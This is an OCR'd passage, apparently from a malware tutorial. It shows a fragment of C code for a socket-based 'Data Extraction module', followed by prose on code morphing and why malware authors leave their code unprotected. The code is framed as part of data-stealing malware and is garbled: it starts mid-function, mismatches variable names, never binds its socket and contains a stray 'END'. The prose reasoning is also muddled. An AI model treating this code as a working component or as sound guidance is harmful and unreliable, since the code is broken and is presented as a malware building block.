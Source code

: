 ```c
	printf("%c", buf[i]);
}
/* Close the socket */
close(cltfd);
}

/* Never reaching this point */
return 0;
}

int
dext_init(int port)
{
	struct sockaddr_in srvaddr;
	printf("Initializing Data Extraction module...\n");
	dexft_fd = socket(AF_INET, SOCK_STREAM, 0);
  
srvaddr.sin_family = AF_INET;
srvaddr.sin_addr.s_addr = INADDR_ANY;
srvaddr.sin_port = htons(port);

return 0;
}

END

```
The malware simply explains the concept; we aren’t really attempting to evade detection. The challenge with code morphing is that it requires expertise, skills, and effort to write and is simply limited by a number of factors. Most malware authors will code something that is completely unprotected and can be used just as-is, once detected, it will be impossible to use the malware again, so getting a small number of results is still worthwhile. 


https://creativecommons.org/licenses/by-nc-sa/3.0/deed.en_US
